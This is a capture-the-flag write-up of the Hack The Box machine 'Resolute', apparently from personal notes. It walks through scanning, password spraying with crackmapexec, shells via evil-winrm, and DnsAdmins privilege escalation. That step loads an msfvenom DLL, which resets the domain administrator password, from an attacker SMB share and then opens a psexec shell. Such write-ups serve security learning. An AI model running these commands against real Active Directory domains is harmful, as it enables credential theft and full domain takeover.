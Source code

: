 # HTB Resolute

Basic nmap scan:
```
Nmap scan report for 10.10.10.169
Host is up (0.15s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49682/tcp open  unknown
49714/tcp open  unknown
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 365.07 seconds
          Raw packets sent: 66234 (2.914MB) | Rcvd: 67252 (2.733MB)
```

Aggressive nmap scan:
```
Nmap scan report for 10.10.10.169
Host is up (0.12s latency).
Not shown: 989 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
53/tcp  open  domain      Simple DNS Plus
88/tcp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-04-05 00:35:29Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap        Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http  Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap        Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=4/4%OT=53%CT=1%CU=42780%PV=Y%DS=2%DC=T%G=Y%TM=642CC0D8
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=108%CI=I%TS=A)SEQ(SP=106%GCD
OS:=1%ISR=108%TS=A)OPS(O1=M53ANW8ST11%O2=M53ANW8ST11%O3=M53ANW8NNT11%O4=M53
OS:ANW8ST11%O5=M53ANW8ST11%O6=M53AST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%
OS:W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M53ANW8NNS%CC=Y%Q=)T1(R=Y%DF=
OS:Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q
OS:=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%
OS:A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%
OS:DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD
OS:=G)IE(R=Y%DFI=N%T=80%CD=Z)
Uptime guess: 0.003 days (since Tue Apr  4 18:25:00 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 2h27m01s, deviation: 4h02m30s, median: 7m00s
| smb-security-mode: 
|  account_used: guest
|  authentication_level: user
|  challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|  311: 
|_    Message signing enabled and required
| smb2-time: 
|  date: 2023-04-05T00:36:03
|_  start_date: 2023-04-05T00:32:20
| smb-os-discovery: 
|  OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|  Computer name: Resolute
|  NetBIOS computer name: RESOLUTE\x00
|  Domain name: megabank.local
|  Forest name: megabank.local
|  FQDN: Resolute.megabank.local
|_  System time: 2023-04-04T17:36:00-07:00
TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1  51.04 ms 10.10.16.1
2  51.10 ms 10.10.10.169
NSE: Script Post-scanning.
Initiating NSE at 18:29
Completed NSE at 18:29, 0.00s elapsed
Initiating NSE at 18:29
Completed NSE at 18:29, 0.00s elapsed
Initiating NSE at 18:29
Completed NSE at 18:29, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.36 seconds
          Raw packets sent: 1476 (76.180KB) | Rcvd: 4649 (192.608KB)
```

SMB enumeration shows shares are locked down:
![[./_resources/HTB_Resolute.resources/image.png]]

When enumerating users with CME, I found the following users. One user has a password noted in the comment section as well.:
![[./_resources/HTB_Resolute.resources/image.1.png]]

```
Uname: marko
Passwd: Welcome123!
```

The above password did not work for Marko. It may be due to the fact that the comment is old and he already created a new password. With this in mind, I decided to try this password on all users after adding the other usernames to a new list. I then performed the dictionary attack with CME like so.:
```
└─$ crackmapexec smb 10.10.10.169 -u userlist.txt -p Welcome123!
```

![[./_resources/HTB_Resolute.resources/image.2.png]]

Valid credentials:
```
Uname: melanie
Passwd: Welcome123!
```

I was then able to access some SMB shares with Read-only access as show below.:
```
smbmap -d megabank.local -H 10.10.10.169 -u 'melanie' -p 'Welcome123!'
```

![[./_resources/HTB_Resolute.resources/image.3.png]]

After checking the SMB shares, I did not find anything of value. I proceeded to then establish a remote shell with evil-winrm with melanie's credentials.:
![[./_resources/HTB_Resolute.resources/image.4.png]]

User.txt hash:
![[./_resources/HTB_Resolute.resources/image.5.png]]
Next, I had to recall what the correct command was to see all files in a directory including hidden ones. Apparently, the correct command is:
```
dir -force
```

In using this command, I found the PSTranscripts directory which had some sensitive information.:
![[./_resources/HTB_Resolute.resources/image.6.png]]

New credentials:
```
Uname: ryan
Passwd: Serv3r4Admin4cc123!
```

I was then able to evil-winrm as ryan in a new session.:
![[./_resources/HTB_Resolute.resources/image.7.png]]

In this case, Ryan is a member of the following groups.:
![[./_resources/HTB_Resolute.resources/image.8.png]]

When researching domain users group, it appears Ryan is a member of the Contractors group and the DomainAdmins group as well. This can also be seen when using bloodhound:
![[./_resources/HTB_Resolute.resources/image.9.png]]
When researching the DomainAdmins group for privilege escalation, I found the following.: <https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges>

It is also worth noting that the DNS service runs with NT AUTH\\SYSTEM privileges. This is part of the reason why I can escalate privileges with a loaded custom DLL file. I just need to change the path to this DLL file and restart the service for this to work.

First, I generated a malicious .dll payload with msfvenom using:
```
msfvenom -p windows/x64/exec cmd='net user administrator P@s5w0rd123! /domain' -f dll > da.dll
```

Next, I hosted the .dll file with Impacket's SMB script:
```
impacket-smbserver share ./
```

Next, I set the remote .dll file in the target Windows machine's registry with the following command:
```
cmd /c dnscmd localhost /config /serverlevelplugindll \\10.10.16.2\share\da.dll            <----------------- NOTE: The "share" directory is mandatory as I received errors without it.
```

Next, I stopped and started the DNS service like so on the target Windows machine:
```
sc.exe stop dns
sc.exe stop dns

NOTE: You will see a connection attempt on the SMB server's side without errors.
```

Finally, I just access the machine using Impacket's PSExec script like so and then entered the password (set with msfvenom) when prompted.:
```
impacket-psexec megabank.local/Administrator@10.10.10.169
```

As a result, I got a privileges shell with Administrator permissions and was able to get the root.txt file.:

![[./_resources/HTB_Resolute.resources/image.10.png]]

**###ROOTED!!!###**
